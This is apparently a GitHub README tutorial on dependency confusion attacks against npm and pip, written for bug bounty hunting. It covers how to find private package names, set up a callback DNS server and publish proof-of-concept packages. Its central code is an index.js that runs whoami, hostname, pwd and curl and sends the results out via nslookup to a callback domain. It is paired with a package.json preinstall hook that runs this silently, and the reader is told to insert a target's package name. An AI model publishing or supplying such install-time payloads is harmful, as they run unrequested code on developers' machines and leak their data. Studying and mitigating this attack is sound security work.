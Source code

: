 # All About Dependency Confusion Attack, (Detecting, Finding, Mitigating)

## Table of content:

- [About dependency confusion attack](#about-dependency-confusion-attack)
- [How npm works and understanding package system, version, scope packages, etc.](#how-npm-and-similar-package-system-work-and-understanding-its-structure-and-more)
- [Detecting private package](#detect-private-pip-and-npm-packages)
- [Automation with bash](#automating-with-bash-to-find-private-packages)
- [Manual Hunting](#manual-hunting-to-find-more-packages)
- [Setting up bind9 DNS server](#setting-up-bind9-dns-server)
- [Uploading POC](#uploading-poc)
- [Mitigation](#mitigation)
- [Bounty Transparency](#bounty-transparency)



## About dependency confusion attack:
When you put `pip install -r requirements.txt` in your terminal did you check the package that you currently installing is not in the public repository? Or did someone put a backdoor on this package that you install blindly? How do you trust pypi? Is there anything that can harm your machine which is protected by firewall? 
Well, you might wonder how you can easily get hacked for running this command in your terminal! I'm not going to explain how this occurs, there is a great article about [Dependency Confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) by [alex birsan](https://twitter.com/alxbrsn)! But I can't resist giving you a simple explanation about the dependency confusion attack! 
Suppose you had a project called `A` which completely depends on react packages as you might hear of some third-party react component packages that are currently used by lots of companies for their development process, (for example `react-router`) which means your current project heavily depends on some third-party module! Now Imagine you got a new job at this company and your previous colleague didn’t tell you about his project but did give you a file called `package.json` with a bunch of js files and you know what to do with that just simple command `npm -i` and You're good to go. But did you know that there might be some private packages that your senior developer didn’t allow you to disclose in public? So what will happen when you put `npm -i` in your terminal if this package is claimed by a malicious actor? Yeah, that's the simple explanation of dependency confusion attack!


## How npm and similar package system work and understanding its structure and more:

npm stands for node package manager which is used for storing your project dependency as public. But npm also allows you to install packages from your local package manager which is private, which means these packages are restricted from public users, just an internal user or specific traffic can install these packages for development purposes! And also these packages didn’t exist in public npm [registry](https://registry.npmjs.com), this works fine until you accidentally forget to mention the install path in your cli file.
but in pip, these are completely different as pip checks for higher versions if put the `--extra-index` flag for your installation, like if you put `--extra-index` when you install pip packages through your terminal eg:`pip install -r requirements.txt --extra-index-url` then pip will first check which repository contains a higher version of this package. if pip sees that your local registry contains a higher version then pip will install this instead of a public one. Now imagine you accidentally leak your private pip package name Through github repo and attacker claim these packages and includes 2000.0.0 as the package version but in your local registry this package version is like 2.0.1 what will happen? well, pip priorities a higher version if you include the `--extra-index-url` flag so pip will install this package from a public instead of a private repository, as pip sees this version is higher than your local version. You can read how pip works in this blog [post](https://realpython.com/what-is-pip/), also if you want to read how the version work in npm please read this [article](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json).as my research is ongoing on other package system so I can't tell you enough for this! I will add them here.


## Detect private pip and npm packages:

This is so easy for npm normal packages, just visit `https://npmjs.com/package/YOUR-PACKAGE-NAME-HERE and for scope packages`, let me tell you what is exactly it means 'if you have seen an npm package name like this `@test/example-packages` that means every package are started with `@` and divided by `\` the first part of `\` is scopes name and the second part is actual packages name so if you found this type of package name in your finding, you have to check whether this scope name is claimed in a public repository or not, for that visit this `https://npmjs.com/org/SCOPE-NAMES-HERE` if this shows you 404 that's means this is unclaimed scope name! So for uploading POC packages on npmjs, you have to create an org name first then update this name to your package.json file like this `@org/package-name-here`, and for pip just [visit](https://pypi.org/)



## Automating with bash to find private packages:

Download this `automate-bash.sh` file and run this command in your terminal `bash automate-bash.sh <target domain>` make sure you have installed [tomnomnom's waybackurls](https://github.com/tomnomnom/waybackurls) and [hacker_'s gau](https://github.com/lc/gau) in your machine.



## Manual hunting to find more packages:

- Using Github:
in GitHub you can visit every repo to see if there is any of these filenames exist, like for npm `package.json`,`yarn.lock`,`package-lock.json`,`yarn-error.log`. For pip `requirements.txt`, `requirement-dev.txt`,`requirement-prod.txt`. 
- Using Devtools:
open your firefox browser and visit your target domain/subdomain ==> right click ==> inspect ==> go to `Debugger` ==> try to find `Webpack` directory (if your target used webpack, otherwise you may not see anything) ==> in `Webpack` directory you will see `node_modules` folder and every subfolder name of `node_modules` folder is actually an npm package.
- JS file:
js file is so boring to read, but if you already know what an npm package name looks like, you may able to spot them within js file. (this needs practice)



## Setting-up bind9 DNS server:
follow these videos and repo
[Github repo](https://github.com/JuxhinDB/OOB-Server)
[DigitalOcean + Namecheap](https://www.youtube.com/watch?v=iMSqT9MZbQs),
[AWS + Godaddy](https://www.youtube.com/watch?v=p8wbebEgtDk),


## Uploading POC:
please follow this video on my youtube channel.

in this folder `src/poc`, edit `index.js` file. replace `niroborg-npm-com-test` with your target package name. also `bind9-or-callback-server.com` to your callback DNS server.
```javascript
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'niroborg-npm-com-test';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $a.bind9-or-callback-server.com;done" , (error, data, getter) => {
	if(error){
		console.log("error",error.message);
		return;
	}
	if(getter){
		console.log(data);
		return;
	}
	console.log(data);
	
});
```
and in `package.json` file, replace `test-npm-com-test` with your target package name. then define the version name. it is recommended that you should upload multiple package versions when you upload the npm package because npm uses a special version system. [read more](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json)
```json
{
  "name": "test-npm-com-test",
  "version": "1.999.0",
  "description": "",
  "main": "main.js",
  "scripts": {
    "preinstall": "node index.js > /dev/null 2>&1",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "lexi2",
  "license": "ISC",
  "dependencies": {
    "lodash": "^4.17.21"
  }
}

```
please follow this [video](https://youtu.be/GJSvEAJeqko) on my youtube channel.
## Mitigation:
Scan your project dependency with [confused](https://github.com/visma-prodsec/confused) by [@visma-prodsec](https://github.com/visma-prodsec)

(I have my own scanner just for npm, and I think [confused](https://github.com/visma-prodsec/confused) is really cool as they add a bunch of other package managers for scanning)
## Bounty Transparency:
- $2000 from Shein (goes public)
- $2000 from an outside bug bounty program (closed)
- $1500 from Bugcrowd private program (closed)
- $1250 from Bugcrowd private program (ongoing)
- $1000 from an outside bug bounty(self-hosted)
- $1000 from Comcast Cable. (closed)
- $700 from an outside bug bounty program(self-hosted)
- $500 from an outside bug bounty program(self-hosted)
- $250 from Bugcrowd private program (closed)
## Shoutouts:
- [@alxbrsn](https://twitter.com/alxbrsn) for his amazing [research](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) , without his research, nothing would have been possible.
- [@Stok](https://twitter.com/stokfredrik) for his amazing [video](https://www.youtube.com/watch?v=p8wbebEgtDk) about setting-up bind9 dns server (using GoDaddy + aws)
- [@juxhindb](https://twitter.com/juxhindb) for his amazing github [repo](https://github.com/JuxhinDB/OOB-Server)
- [@nigamelastic](https://twitter.com/nigamelastic) for his amazing [video](https://www.youtube.com/watch?v=iMSqT9MZbQs) about setting-up bind9 dns server(using Namecheap + digitalocean)
- [@tomnomnom](https://twitter.com/tomnomnom) for his powerful archive URL fetching tool [waybackurls](github.com/tomnomnom/waybackurls)
- [@hacker_](https://twitter.com/hacker_) for his powerful archive URL fetching tool [gau](github.com/lc/gau)
- [@visma-prodsec](https://github.com/visma-prodsec) for their powerfull dependency scanner [confused](https://github.com/visma-prodsec/confused)

## Useful?

<a href="https://buymeacoff.ee/x1337loser" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

<a href="https://archive.org/donate">Donate to the InternetArchive</a>

